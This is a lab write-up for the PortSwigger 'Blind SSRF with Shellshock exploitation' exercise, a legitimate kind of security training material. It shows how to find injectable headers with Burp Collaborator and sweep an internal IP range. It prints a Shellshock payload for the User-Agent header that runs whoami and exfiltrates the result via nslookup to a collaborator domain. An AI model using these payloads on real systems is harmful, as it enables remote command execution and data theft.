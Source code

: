 
### Blind SSRF with Shellshock exploitation : EXPERT

---

Since the `referer` header contains the URL that is fetched, this means we will need to find the URL of the internal server and place it in the `reeferer` header.

Since this is a blind vulnerability, we can use the BURPSUITE COLLABORATOR to identify the blind injection points, following the process found in [[Portswigger/SSRF/Lab 6|Lab 6]].

> Capturing a request sent after clicking on a product and viewing it in repeater.

![](./screenshots/lab7-1.png)

We know that the `referer` header is vulnerable. Therefore, we can insert in it the IP address range of the internal server, and perform a "ping sweep" by observing the collaborator responses to see which server replies.
- We know that the server operates in the range `192.168.0.X:8080`.
- We need to figure out which `X` is it.
- To obtain the responses, we need to find an injection point that correlates both the server IP address, as well as the collaborator domain.

We can first modify the `referer` header by placing this as the server URL:
```
Referer: http://192.168.0.1:8080
```
- Place a `1` instead of the `X` for now, later, we will try the entire range from `0-255`.

![](./screenshots/lab7-2.png)

> Now, we now from the previous lab that the `referer` header is vulnerable. The next step, is to find a way to insert the shellshock exploit code to extract the name of the OS user from the server in the `referer` header.

This means we need to find another vulnerable injection point, which can be done using the `collaborator everywhere` extension.
 - Download it from the Extensions tab, in the BApp Store, then searching for its name.

> Add the lab URL into scope so that the extension can do its work and find all possible injection points.
- From the Target tab, open the Scope settings options and paste in the lab URL.

![](./screenshots/lab7-3.png)

What this extension does is that places collaborator payloads in all the possible headers, and each header has a unique collaborator domain.
- It then reports which headers are vulnerable by matching the collaborator domain placed in the header with the observed lookup requests.
- The vulnerability here is which header performs a ping back, or sends a response to the collaborator domain that is being sent.
- If a ping back is witnessed, this means we can communicate with this endpoint.

> Now, refreshing the product page, as we know this is the vulnerable point, we see that there are two new issues found in the Dashboard tab.

![](./screenshots/lab7-4.png)

This confirms our findings that the `Referer` header is vulnerable, but it also shows us a new injection point, the `User-Agent` header.

> Now that we know the value `referer` header is fetched by the server, we need to inject in the `user-agent` header the shellshock exploit to get the OS username.

```bash
 () { :; }; whoami
```

This code would normally be enough to obtain the username of the OS.
- However, we need to send this data to us somehow.
- This can be done by triggering a DNS lookup of our own collaborator domain.
- We can then insert the `whoami` command as a subdomain so that we can exfiltrate this data.
- The new exploit becomes:

```bash
 () { :; }; /usr/bin/nslookup $(whoami).BURP_COLLAB_DOMAIN
```
- `nslookup` is used to make DNS queries. 
- We added the entire path of the binary which is optional.
- The `BURP_COLLAB_DOMAIN` is our attacker controlled domain that we will observe the requests being made to. Hence, this is our collaborator domain.

> This payload will be placed in the `user-agent` header as we now that it is vulnerable, and the new request will look like this:

![](./screenshots/lab7-5.png)

Now, we need to send this request to all the possible servers, and observe the responses in the collaborator tab.

> To brute force the server IP address, we use the INTRUDER tab and launch a sniper attack on the value of the final octet of the address.

![](./screenshots/lab7-6.png)

We then set the payloads to be the numbers from 0-255.

![](./screenshots/lab7-7.png)

Launching the attack, we can now observe the collaborator tab.

![](./screenshots/lab7-8.png)

We see that the username is added as a subdomain: `peter-C4W0nT`.

---

